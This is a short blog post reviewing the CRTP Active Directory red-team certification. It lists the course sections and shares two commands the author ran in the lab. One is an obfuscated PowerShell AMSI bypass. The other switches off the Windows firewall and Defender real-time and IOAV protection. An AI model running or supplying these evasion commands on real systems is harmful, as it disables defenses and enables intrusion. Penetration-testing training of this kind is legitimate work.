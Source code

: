 ```yaml
---
layout: post
title: "Certified Red Team Professional (CRTP) Review"
permalink: "crtp"
date: 13-11-2022
categories: Blog
---
```


Recently I passed the Certified Red Team Professional (CRTP) which was an excellent course provided by Pentester Academy. The course is all focused on Active Directory hacking but instead of using Kali we instead use a Windows box to priv esc and move around the AD network with the help of PS Remoting mainly. The best part about this course is we are working in an environment with MS Defender and AMSI scanning in place so although being stealthy (aka Red Teaming) isn't a requirement it is necessary to bypass these restrictions.

The course consists of the following sections but to be honest for the exam the 'Defenses' topics aren't required:

* Active Directory Enumeration
* Local Privilege Escalation
* Domain Privilege Escalation
* Domain Persistence and Dominance
* Cross Trust Attacks
* Forest Persistence and Dominance
* Defenses – Monitoring
* Defenses and bypass – Architecture and Work Culture Changes
* Defenses and Bypass – Deception
* Defenses and Bypass – PowerShell

One of the key things when going from box to box I learned is how to disable AMSI and also open up the firewall and disable real-time monitoring. These were the two Powershell commands I ran each time which might be useful for others:

```
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

{% highlight powershell %}
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False;Set-MpPreference -DisableIOAVProtection $true;Set-MpPreference -DisableRealtimeMonitoring $true
{% endhighlight %}


